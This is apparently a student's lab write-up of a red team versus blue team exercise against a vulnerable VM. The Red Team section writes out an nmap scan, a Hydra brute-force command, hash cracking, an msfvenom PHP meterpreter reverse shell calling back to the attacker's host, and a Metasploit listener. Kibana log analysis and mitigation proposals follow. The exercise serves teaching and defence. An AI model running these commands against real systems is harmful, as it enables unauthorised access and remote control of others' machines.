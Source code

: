 # Red Team vs Blue Team

For this project, I worked on a Red Team vs. Blue Team scenario in which I played the role of both pentester and SOC analyst.
As the Red Team, I attacked a vulnerable Virtual Machine within my environment, and ultimately gained root access to the machine. As Blue Team, I used Kibana to review logs taken from when I attacked the vulernable machine. I then used the logs to extract hard data and visualizations for their report.
I created mitigation measures for each exploit that I've successfully performed.

## Red Team


-	I ran the command ***ifconfig*** to find the IP address of the capstone machine, which was the machine we were attacking.

![1a](https://user-images.githubusercontent.com/92223941/167281275-93a49077-e4fd-49b8-abb8-5996739eb5d8.PNG)

-	I then ran a Nmap command ***nmap -sV 192.168.1.105*** to find the open ports

![image](https://user-images.githubusercontent.com/92223941/167281224-191e434b-d94f-4a4b-a6fd-3515a2e9c02d.png)

-	I then went into the website to see to find any important directories. I was able to find a hidden directory at 192.168.1.105/company_folders/secret_folder that you need to login into as Ashton.

![image](https://user-images.githubusercontent.com/92223941/167281335-956344b0-fdd2-4bee-af89-ebb9f989ae2c.png)

-	On the Kali machine, I ran the Hydra tool with the command ***hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get http://192.168.1.105/company_folders/secret_folder*** on it that used brute force into the wordlist and found the password for it.

![Hydra password](https://user-images.githubusercontent.com/92223941/167281384-6f05f062-0e78-4dce-ad56-1fad9ec91fe1.PNG)

-	I then logged into the secret folder and found a personal note in it.

![image](https://user-images.githubusercontent.com/92223941/167281416-4ab1c2f6-beef-43a8-808b-4bbf5874493d.png)

-	After reading the personal note, I copied the hashed text that was was left for Ryan's account and put it on https://crackstation.net/ and cracked it on the website.

![ryan password](https://user-images.githubusercontent.com/92223941/167281434-8f81988d-a4f1-4695-b83e-bb06cc285285.PNG)

-	Now that I have username and password for Ryan, I can now create my php shell to put on their website. I did so by doing this command ***msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=80 -f raw > shell.php***

![msfvenom](https://user-images.githubusercontent.com/92223941/167281455-8e01b643-d192-4939-8992-b3dca42cdc39.PNG)

-	I then uploaded the shell into the webdav directory.

![image](https://user-images.githubusercontent.com/92223941/167281502-8d68b727-b8e0-49b1-8bdf-87dc7e35cabb.png)

-	I then ran Metasploit to listen to the shell on the target machine, so I can access it via remote. The commands I ran were:

	-	***msfconsole***
	-	***use exploit/multi/handler***
	-	***set payload php/meterpreter/reverse_tcp***
	-	***set LHOST 192.168.1.90***
	-	***set LPORT 80***
	-	***show options***
	-	***run***

![snip 2](https://user-images.githubusercontent.com/92223941/167281556-7176de74-2fec-4aad-81e9-ae500111a626.PNG)

-	I then clicked on the shell on the website after I ran the Metasploit and I was able now to now get remote access to the target machine.

-	I then ran the command ***shell*** and went back to the root directory and then listed the directories and found the flag.

![6](https://user-images.githubusercontent.com/92223941/167281652-3aa24019-0640-4643-a46b-da75072434c6.PNG)
![7](https://user-images.githubusercontent.com/92223941/167281666-b48aaa30-140d-463c-8287-3653eb305899.PNG)



## Blue Team

-	Analysis: Identifying the Port Scan
	-	The port scan occurred on April 6 12 am
	-	162,551 packets were sent from the machine 192.168.1.90
	-	The massive rise in the network traffic indicates that it is a Port Scan

![Port Scan](https://user-images.githubusercontent.com/92223941/167281697-d81d864f-0edc-4bc9-a8a3-e780750f5eba.PNG)

-	Analysis: Finding the Request for the hidden directory
	-	The requested occurred for this URL path on April 6 12 and there were 99,596 requests made to it
	-	The file that was requested was the secret_folder and it contained the hashed password for Ryan's account and the web address to login into

![http request](https://user-images.githubusercontent.com/92223941/167281725-b7ed6d0c-a722-4e69-b8e9-336be079fc9a.PNG)

-	Analysis: Uncovering the Brute Force Attack
	-	99,596 requests were made during the brute force attack to get into the secret folder directory
	-	99,577 requests were made before the attacker found out the password

![brute force attack blue team](https://user-images.githubusercontent.com/92223941/167281750-4c8eb6bf-d727-4fc0-a298-ea743b98926a.PNG)

-	Analysis: Finding the WebDAV Connection
	-	60 requests were made to this directory
	-	Shell files were requested

![webdav](https://user-images.githubusercontent.com/92223941/167281770-7b3f00c8-18da-4851-9339-833991e72a6b.PNG)

## Blue Team Proposed Alarms and Mitigation Strategies

-	Mitigation: Blocking the Port Scan
	-	Alarm
		-	An alert for port scanning can be set to the threshold of 10
	-	System Hardening
		-	The configurations I would set up on the host to mitigate the port scans would be to put up a firewall and close ports 80 and 22. Make sure the server doesnâ€™t response to ICMP requests.

-	Mitigation: Finding the Request for the Hidden Directory
	-	Alarm
		-	I would make an alarm when request for secret folders and files are made and set threshold to 1
	-	System Hardening
		-	To block unwanted access on the host I would not make secret folders accessible for public access. Make complicated passwords and reset password every 3 months.


-	Mitigation: Preventing Brute Force Attacks
	-	Alarm
		-	To detect future brute force attacks, I would set an alert after 3 bad login attempts send a text message or email to the user and manager about activity, after 5 bad logins attempts, reset the password.
	-	System Hardening
		-	I would close ports 22 and 80. Add firewall, encrypt, and hash profiled information as configuration to block brute force attacks on host

-	Mitigation: Detecting the WebDAV Connection
	-	Alarm
		-	I would set the alarm for alert for number of times a file requested in webdav by non-trusted ip address and threshold to 10 to detect future access to this directory
	-	System Hardening
		-	The configuration that can be set on the host to control access is Multi factor login, change password every few months, only specific users have access to WebDav.

-	Mitigation: Identifying Reverse Shell Uploads
	-	Alarm
		-	I would set the alarm for alert for number of times for any shell upload with the threshold of 1 to detect future file uploads
	-	System Hardening
		-	The configuration that can be set on the host to block file upload would be close the ports, strong firewall. Set remote execution to block on the server.



 
